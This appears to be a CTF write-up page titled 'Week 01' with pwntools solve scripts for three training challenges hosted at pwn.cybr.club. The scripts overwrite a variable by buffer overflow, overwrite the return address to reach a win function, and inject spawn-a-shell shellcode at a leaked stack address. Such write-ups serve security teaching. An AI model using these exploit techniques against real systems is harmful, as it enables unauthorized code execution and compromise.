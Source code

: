 +++
title = "Week 01"
weight = 0
slug="week-01"
description = "- Flag Hole: buffer overflow overwrite variable<br>- Login: bof overwrite RIP<br>- Sally: bof jump to shellcode at leaked stack address"
+++

# Flag Hole
Buffer overflow to overwrite a variable

Solve script:
``` py
from pwn import *

port= 7003
p = remote("pwn.cybr.club", port)
#p = process('./flag_hole')

p.recv()
p.send(b'\x00'*100)

p.interactive()
# looking at the assembly, the fd for /dev/null is stored at rbp-0xc, gets input is stored at rbp-0x70
# 0x70 - 0x0c = 100, overwrite it with 0 which is the fd for stdout
```

# Login
Buffer overflow to overwrite return instruction pointer

Solve script:
``` py
from pwn import *

port= 7000
p = remote("pwn.cybr.club", port)

win = p64(0x4011a2)

p.sendline(b'A'*40 + win)
p.sendline(b'lmao')

p.interactive()
```

# Sally
Given a leaked stack address, write shellcode and jump to it

Solve script:
``` py
from pwn import *

port= 7007
p = remote("pwn.cybr.club", port)
#p = process('./sally')
elf = ELF('./sally')
context.arch = elf.arch

shellcode = asm(shellcraft.sh())

p.recvuntil(b'There are ')
leak = int(p.recvuntil(b' sea').split(b' ')[0].decode(), 16)

p.sendline(shellcode+ b'A'*(136-len(shellcode)) + p64(leak))

p.interactive()
```
